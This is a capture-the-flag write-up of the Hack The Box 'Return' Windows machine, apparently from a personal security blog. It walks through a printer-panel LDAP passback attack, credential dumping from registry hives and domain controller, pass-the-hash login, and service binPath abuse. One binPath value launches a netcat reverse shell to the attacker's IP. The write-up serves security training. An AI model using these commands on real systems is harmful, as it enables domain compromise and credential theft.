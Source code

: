 ```yaml
---
title: "Return - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Return
![](https://kar0nx.github.io/assets/images/writeup/defa149ea7e259a4709a03a5825e970d.png)
## Reconnaissance

IP: 10.10.11.108
## NMAP

```
nmap -T4 -p- -A 10.10.11.108
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-31 17:24 UTC
Nmap scan report for 10.10.11.108
Host is up (0.031s latency).
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-31 17:43:30Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
62650/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=8/31%OT=53%CT=1%CU=31358%PV=Y%DS=2%DC=T%G=Y%TM=68B485B
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=S%TS=
OS:U)SEQ(SP=104%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=105%GCD=1%ISR
OS:=10A%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=105%GCD=1%ISR=10E%TI=I%CI=I%II=I%TS
OS:=U)SEQ(SP=106%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S%TS=U)OPS(O1=M552NW8NNS%O
OS:2=M552NW8NNS%O3=M552NW8%O4=M552NW8NNS%O5=M552NW8NNS%O6=M552NNS)WIN(W1=FF
OS:FF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M5
OS:52NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=
OS:Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%
OS:T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 18m28s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-08-31T17:44:31
|_  start_date: N/A

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   30.34 ms 10.10.14.1
2   31.17 ms 10.10.11.108

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.67 seconds
```

AD set with http, let's start with it 
## Website
### Site

Interesting Printer Admin panel

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831192635.png)

Amazing in  /settings.php we see user svc-printer and hidden password. My first thaught is passback attack like I learn in PEH course
https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack
so start listener, type our ip and click update

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831192834.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831192823.png)

and we got user and password svc-printer 1edFg43012!!

## Gaining Access

Now start enumerating AD with valid user

```
nxc smb 10.10.11.08 -u svc-printer -p '1edFg43012!!' --users
nxc smb 10.10.11.08 -u svc-printer -p '1edFg43012!!' --shares
nxc winrm 10.10.11.08 -u svc-printer -p '1edFg43012!!'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831193250.png)

We can connect with evil-winrm and get user.txt

## Privilege Escalation

```
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831193841.png)

we have SeBackupPrivilege so easy peasy! 

```
reg save hklm\sam sam
reg save hklm\system system
download sam
download system
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831194111.png)

```
impacket-secretsdump -sam sam -system system local
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831194216.png)

ok not working (not  easy peasy! ) XD Let's run winpeas to check for other options.
We can modify services cause we are in Server Operators group

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831203059.png)

ok tried few and I got hit with AppReadiness

```
sc.exe config AppReadiness binpath= "cmd /c net localgroup Administrators svc-printer /add"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831203814.png)

start the service and we will be added to Administrators group

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831203946.png)

and now:

```
impacket-secretsdump svc-printer@10.10.11.108 -just-dc-ntlm 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831204411.png)

Mayby this time hash will be correct

```
evil-winrm -i 10.10.11.108 -u Administrator -H 32db622ed9c00dd1039d8288b0407460
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831204502.png)

Yes we are in. Grab your root flag.
### Alternative fast revshell

Over checking services 1by 1 just type 

```
service
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831205046.png)

```
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.14.8 4444"
```

```
sc.exe stop VMTools
sc.exe start VMTools
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831205522.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831205438.png)